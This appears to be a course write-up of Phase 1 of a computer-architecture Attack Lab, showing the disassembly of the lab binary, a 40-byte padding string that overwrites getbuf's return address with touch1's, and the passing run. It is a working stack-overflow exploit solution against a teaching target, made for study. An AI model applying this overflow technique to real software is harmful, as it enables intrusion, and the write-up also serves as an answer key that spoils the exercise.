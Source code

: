 ```yaml
---
title: "Attack Lab: Phase 1"
categories:
  - "Course Work"
  - "Computer Organization and Architecture"
tags:
  - "Attack Lab"
---
```


###### Run

```bash
objdump --disassemble ctarget > ctarget.asm
```

###### Read File `ctarget.asm`

```assembly
...
0000000000401b28 <getbuf>:
  401b28:	48 83 ec 28          	sub    $0x28,%rsp
...
0000000000401b3e <touch1>:
...
```

###### Write File `phase-1.txt`

```
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
3e 1b 40 00 00 00 00 00
```

###### Run

```bash
./hex2raw < phase-1.txt > phase-1.in
./ctarget -i phase-1.in
```

###### Terminal Output

```
Cookie: 0x3a9a6c2f
Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Sent exploit string to server to be validated.
NICE JOB!
```
